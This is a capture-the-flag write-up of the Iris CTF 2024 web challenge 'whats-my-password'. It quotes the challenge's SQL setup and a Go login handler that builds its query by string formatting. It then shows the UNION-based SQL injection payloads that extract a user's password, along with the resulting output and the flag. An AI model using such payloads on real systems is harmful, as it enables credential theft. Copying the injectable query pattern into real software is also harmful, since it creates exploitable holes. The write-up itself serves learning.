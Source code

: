 ```yaml
---
layout: writeup
category: Iris-CTF-2024
chall_description:
points: 50
solves: 422
tags: Iris-CTF-2024 web web/sqli web/union
date: 2024-1-7
comments: false
---
```


[baby] Oh no! Skat forgot their password (again)!  

Can you help them find it?  

[https://whats-my-password-web.chal.irisc.tf/](https://whats-my-password-web.chal.irisc.tf/)  
[whats-my-password.tar.gz](https://github.com/Nightxade/ctf-writeups/blob/master/assets/CTFs/Iris-CTF-2024/whats-my-password.tar.gz)  

---

We're given a source folder for the site, `whats-my-password.tar.gz`. The only relevant part is `setup.sql` and `src/main.go`

Here's `setup.sql`:  

```sql
CREATE DATABASE uwu;
use uwu;

CREATE TABLE IF NOT EXISTS users ( username text, password text );
INSERT INTO users ( username, password ) VALUES ( "root", "IamAvEryC0olRootUsr");
INSERT INTO users ( username, password ) VALUES ( "skat", "fakeflg{fake_flag}");
INSERT INTO users ( username, password ) VALUES ( "coded", "ilovegolang42");

CREATE USER 'readonly_user'@'%' IDENTIFIED BY 'password';
GRANT SELECT ON uwu.users TO 'readonly_user'@'%';
FLUSH PRIVILEGES;
```

With a bit of research on that last part of SQL, I realized that what it was doing was likely just granting the capability of using `SELECT` to the user. So maybe we can do an SQL Union attack?  

Additionaly, it seems like the user `skat` has the flag as his password. Seems like that's our target!  

Now here's the relevant parts of `main.go`:  

```go
matched, err := regexp.MatchString(UsernameRegex, input.Username)
if err != nil {
    w.WriteHeader(http.StatusInternalServerError)
    return
}

if matched {
    w.WriteHeader(http.StatusBadRequest)
    w.Write([]byte("Username can only contain lowercase letters and numbers."))
    return
}

qstring := fmt.Sprintf("SELECT * FROM users WHERE username = \"%s\" AND password = \"%s\"", input.Username, input.Password)
```

Firstly, notice how we can only do SQL injection in the password input. This is because the username can only contain lowercase letters and numbers, making single/double quotes' usage impossible. However, there is no such check on the password. Additionally, take a look at the SQL statement. It is a very standard SQL select statement for login, and now we know we should use double quotes.  

Hence, let's try to construct our query. With Burp Suite's Repeater, we can repeatedly send the JSON POST data. I first sent this:  

```json
{"username":"a","password":"\"union select * from uwu.users-- "}
```

The `--` at the end denotes a comment so the SQL statement will execute properly and essentially ignore everything after our payload. The username is irrelevant, and `a` is merely a placeholder so it doesn't throw an exception for a missing username.  

Unfortunately, this query does not return the output we want!  

```json
{"username":"root","password":"IamAvEryC0olRootUsr"}
```

Hm. Maybe we can try selecting specifically for the `skat` user?  

```json
{"username":"a","password":"\"union select * from uwu.users where username='skat'-- "}
```

And now we get the output we want!  

```json
{"username":"skat","password":"irisctf{my_p422W0RD_1S_SQl1}"}
```

Therefore, the flag is:  

    irisctf{my_p422W0RD_1S_SQl1}